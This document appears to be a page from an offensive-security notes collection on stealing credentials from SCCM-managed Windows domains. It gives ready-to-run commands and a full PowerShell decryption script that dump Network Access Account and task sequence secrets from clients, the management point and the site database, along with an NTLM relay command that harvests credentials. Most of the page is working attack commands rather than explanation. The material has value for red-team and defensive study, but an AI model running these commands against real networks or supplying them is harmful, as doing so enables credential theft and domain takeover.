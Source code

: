 ```yaml
---
title: SCCM Credentials
---
```


[[notes/mitre-attack/credential-access]] on [[notes/ad/sccm]]-managed computers.

The Network Access Account (NAA) is a domain account that not yet domain-joined SCCM computers use to retrieve data from SCCM.
Therefore every computer knows its password.
Credentials of current and previous NAAs can be found on disk, even after SCCM was migrated from NAA to Enhanced HTTP.

Furthermore Task Sequences nearly always contain credentials of a "domain joiner account" which is often owner of all computers it ever joined to the domain.

# From client

Dump the NAA credentials remotely as local admin.

=== "[[notes/tools/impacket]]"
    Requires [PR 1137](https://github.com/fortra/impacket/pull/1137).

    ~~~ bash
    impacket-systemdpapidump -sccm corp.local/jdoeadm:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/sccmhunter]]"
    ~~~ bash
    sccmhunter dpapi -d corp.local -u jdoeadm -p 'passw0rd' -target ws01.corp.local
    ~~~

    [source](https://twitter.com/s1zzzz/status/1731500405316538805)

Dump NAA credentials, Task Sequences and Collection Variables locally as local admin.

=== "builtin"
    Extract the encrypted password blobs of current and previous NAAs by searching for `PolicySecret` in `C:\Windows\System32\wbem\Repository\OBJECTS.DATA`.
    The file is world-readable, but decryption requires system context.

    Instead of parsing `OBJECTS.DATA` the current blobs can be retrieved from WMI as well.

    ~~~ powershell
    Add-Type -AssemblyName System.Security

    function Decrypt($hexblob) {
        $byteblob = New-Object -TypeName byte[] -ArgumentList ($hexblob.Length / 2)
        for ($i = 0; $i -lt $hexblob.Length; $i += 2) {
            $byteblob[$i / 2] = [System.Convert]::ToByte($hexblob.Substring($i, 2), 16)
        }
        [System.Text.Encoding]::ASCII.GetString([System.Security.Cryptography.ProtectedData]::Unprotect($byteblob[4..$byteblob.Length], $null, 'LocalMachine'))
    }

    function ExtractSecret($text) {
        ([xml] $text).PolicySecret.InnerText
    }

    echo 'Network Access Account:'
    $naa = Get-WMIObject -Namespace 'root\ccm\Policy\Machine\ActualConfig' -ClassName CCM_NetworkAccessAccount
    Decrypt(ExtractSecret($naa.NetworkAccessUsername))
    Decrypt(ExtractSecret($naa.NetworkAccessPassword))

    echo 'Task Sequences:'
    $ts = Get-WMIObject -Namespace 'root\ccm\Policy\Machine\ActualConfig' -ClassName CCM_TaskSequence
    Decrypt(ExtractSecret($ts.TS_Sequence))

    echo 'Collection Variables:'
    $cv = Get-WMIObject -Namespace 'root\ccm\Policy\Machine\ActualConfig' -ClassName CCM_CollectionVariable
    # check manually
    ~~~

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe local secrets -m disk
    .\SharpSCCM.exe local secrets -m wmi
    ~~~

Search for [[notes/windows/sensitive-files]] under `C:\Windows\CCM\ScriptStore` as system ([source](http://web.archive.org/web/20240213175832/https://http418infosec.com/offensive-sccm-summary)).

References:

- [The phantom credentials of SCCM: Why the NAA won't die](http://web.archive.org/web/20221129092818/https://scribe.rip/@specterops/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9)

# From SCCM server

Retrieve NAA credentials from SCCM if you control a [[notes/ad/domain-computer|computer account]].

=== "[[notes/tools/sccmhunter]]"
    ~~~ bash
    sccmhunter http -debug -d corp.local -u jdoe -p 'passw0rd' -cn 'hackerpc$' -cp 'passw0rd' -dc-ip dc01.corp.local
    ~~~

=== "[[notes/tools/sharpsccm]]"
    Retrieve encoded secrets.

    ~~~ bat
    .\SharpSCCM.exe get secrets -mp sccmmp01.corp.local -sc CRP --username hackerpc$ --password 'passw0rd' -r hackerdevice1
    ~~~

    Decode hex strings printed by the previous command.

    ~~~ bat
    .\DeobfuscateSecretString.exe $hexsecret
    ~~~

    Both commands can be execute on a non-joined computer.

Retrieve NAA credentials from SCCM by [[notes/ad/ntlm-relay-from-smb|coercing a computer over SMB]] and relaying it to the SSCM server.

=== "[[notes/tools/impacket]]"
    Requires [PR 1425](https://github.com/fortra/impacket/pull/1425).

    ~~~ bash
    impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support --sccm --sccm-sleep 10 --sccm-fqdn sccmmp01.corp.local --sccm-server sccmmp01 --sccm-device hackerdevice1 -t http://sccmmp01.corp.local/ccm_system_windowsauth/request
    ~~~

    Use `DeobfuscateSecretString.exe` from SharpSCCM to decode the `naapolicy.xml`.

Other tools:

- [sccmwtf](https://github.com/xpn/sccmwtf), used internally by [[notes/tools/sccmhunter]]

References:

- [Exploring SCCM by unobfuscating Network Access Accounts](http://web.archive.org/web/20221022212714/https://blog.xpnsec.com/unobfuscating-network-access-accounts/)

# On management point

Extract credentials from WMI store as local admin ([source](http://web.archive.org/web/20240304065542/https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)).

~~~ powershell
Get-WmiObject -Class SMS_SCI_Reserved -Namespace ROOT\SMS\site_CRP
~~~

# On site database

Dump task sequences from the site database and decode them with `DeobfuscateSecretString.exe` ([source](http://web.archive.org/web/20240213175832/https://http418infosec.com/offensive-sccm-summary)).

~~~ sql
USE CM_CRP;
SELECT Name, Sequence FROM vSMS_TaskSequencePackage;
SELECT Name, Sequence FROM vSMS_TaskSequencePackageEx;
SELECT Name, Sequence FROM TS_TaskSequence;
~~~

Dump DPAPI-encrypted credentials of SCCM service accounts from the site database and decrypt them with [sccmdecryptpoc.cs](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1) on the server that has the SMS Provider role which is typically the primary site server ([source](https://twitter.com/_xpn_/status/1543682652066258946), [source](https://twitter.com/theluemmel/status/1693629416528572430)).

~~~ sql
USE CM_CRP;
SELECT UserName, Password FROM SC_UserAccount;
~~~
